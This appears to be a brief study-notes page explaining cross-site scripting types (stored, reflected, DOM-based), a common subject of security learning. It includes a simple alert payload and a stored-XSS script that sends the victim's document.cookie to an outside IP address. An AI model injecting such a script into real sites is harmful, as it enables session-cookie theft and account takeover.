 # Cross-Site Scripting (XSS)

[HOME](../index.html) / [Web](./)

## The basics

Injection of scripts to the web.

```html
<script>alert(1);</script>
```

## Stored XSS

Most commonly seen in forums and comment area. The injected script will be stored into the server and database.

```html
<html>
    <body>
        <script>
            var r = new XMLHttpRequest();
            r.open("GET", "http://192.168.49.131" + document.cookie);
            r.send();
        </script>
    </body>
</html>
```

## Reflected XSS

Inputs that can be reflected back to the user is highly vulnerable when not properly handled.

## DOM-Based XSS&#x20;

Focuses on the client side.&#x20;

DOM-based XSS is a type of attack that tries to inject script to the Document Object Model (DOM).
